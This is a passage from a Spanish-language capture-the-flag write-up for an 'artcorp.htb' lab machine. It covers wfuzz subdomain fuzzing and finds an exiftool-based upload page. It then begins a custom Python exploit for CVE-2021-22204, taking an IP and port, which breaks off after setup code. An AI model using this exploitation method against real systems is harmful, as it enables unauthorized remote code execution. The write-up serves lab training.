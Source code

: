> Explicación de parámetros :
{: .prompt-info}

> -c : Output a colores
> 
> -t \<number\> : Números de hilos para ejecutar tareas en paralelo
>
> \-\-hc=\<status\_code\> : Ocultar respuestas con el código asignado
>
> \-\-hh=\<character\_number\> : Ocultar respuestas con la cantidad de caracteres asignados
>
> -w \<wordlist\> : Asignamos el wordlist para la búsqueda
>
> -u \<url\> : Especificamos la url para la solicitud
>
> -H \<Headers\> : Especificamos el header a utilizar, en este caso **HOST** el cuál representa el nombre de dominio y remplazamos la palabra **FUZZ** como el campo subdominio

Con el nombre de subdominio encontrado **dev01.artcorp.htb**, al igual que antes lo agregamos a nuestro archivo _/etc/hosts_: `echo "10.10.11.140 dev01.artcorp.htb" >> /etc/hosts`

Una vez dentro encontramos una ruta con una herramienta para subir un archivo y extraer **metadatos**, subimos un archivo de prueba **.txt** para ver el output que genera y nos damos cuenta que solo se permite subir archivos **png/jpg**. Subimos una imagen, logramos ver los metadatos y por el formato de salida nos damos cuenta que el programa usa la herramienta `exiftool`.

![Exiftool](exiftool.png){: .shadow}

## Foothold

* * *

Encontramos una vulnerabilidad que consiste en subir una imagen maliciosa y obtener ejecución remota de comandos **_(CVE-2021-22204)_**. Para explotarlo hice un script en `Python` a mi manera basandome en algunas referencias de otros exploits:

```python
#!/usr/bin/python3

import sys
import subprocess
import os
import base64
import pdb
from PIL import Image
from termcolor import cprint

#colors
printRed = lambda s: cprint(s, 'red', end=' ')
printYellow = lambda s: cprint(s, 'yellow', end=' ')
printMagenta = lambda s: cprint(s, 'magenta', end=' ')
printGreen = lambda s: cprint(s, 'green', end=' ')

#panel_help
def help():
    printYellow("\n[*] Uso : ")
    printMagenta(f"python3 {sys.argv[0]} <ip_address> <port>")
    exit(1)  

#valid_input
if len(sys.argv) != 3: help()

#check if djvumake and exiftool is installed
def checkTools():
    check_djvu = os.popen('which djvumake', 'r')
    check_exif = os.popen('which exiftool', 'r')
```